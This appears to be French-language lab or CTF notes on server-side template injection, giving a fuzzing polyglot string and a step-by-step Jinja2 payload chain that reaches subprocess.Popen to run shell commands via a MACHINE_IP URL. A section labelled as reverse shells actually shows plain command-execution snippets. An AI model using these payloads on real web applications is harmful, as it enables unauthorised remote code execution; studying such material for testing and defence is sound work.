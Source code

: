 # Server Side Template Injection (SSTI)
L'objectif principal est généralement  d'obtenir l'exécution de code à distance

Les Point d'injection:
- URL
- Zone de saisie

## Fuzzing
Les moteurs de modèles utilisent un jeu de caractères similaire pour leurs « fonctions spéciales », ce qui permet de détecter rapidement s'il est vulnérable au SSTI.

Payload:  ils peuvent être envoyés les uns après les autres. 

```sh
${{<%[%'"}}%
```

> Continuez ce processus jusqu'à ce que vous obteniez une erreur ou que certains caractères commencent à disparaître de la sortie.

![](./ssti.png)

## Exploit

A ce stade, nous savons :
- L'application est vulnérable au SSTI
- Le point d'injection
- Le moteur de modèles
- La syntaxe du moteur de modèles


## POC Jinja 2
Jinja2 est essentiellement un sous-langage de Python qui n'intègre pas l' instruction `import`
Not work: `http://MACHINE_IP:5000/profile/{% import os %}{{ os.system("whoami") }}`

Revershell 03 methodes:
```sh
import os
os.system("whoami")
```

```sh
import os
os.popen("whoami").read()
```

```sh
import subprocess
subprocess.Popen("whoami", shell=True, stdout=-1).communicate()
```

---
- Python nous permet d'appeler l'instance de classe actuelle avec .__class__ , nous pouvons appeler ceci sur une chaîne vide :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__ }}
```

- Les classes en Python ont un attribut appelé .__mro__ qui nous permet de remonter dans l'arborescence des objets hérités :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__ }}
```

- Puisque nous voulons l'objet racine, nous pouvons accéder à la deuxième propriété (premier index) :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1] }}
``` 

- Les objets en Python ont une méthode appelée .__subclassess__ qui nous permet de descendre dans l'arborescence des objets :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__() }}
```

Comme l’ensemble de cette sortie n’est qu’une liste Python, 
Nous devons maintenant trouver un objet qui nous permet d'exécuter des commandes shell. Faire un Ctrl-F et rechercher
`subprocess.Popen` nous pouvons y accéder en utilisant son index.

```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401] }}
```


il ne nous reste plus qu'à l'invoquer 

```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
```

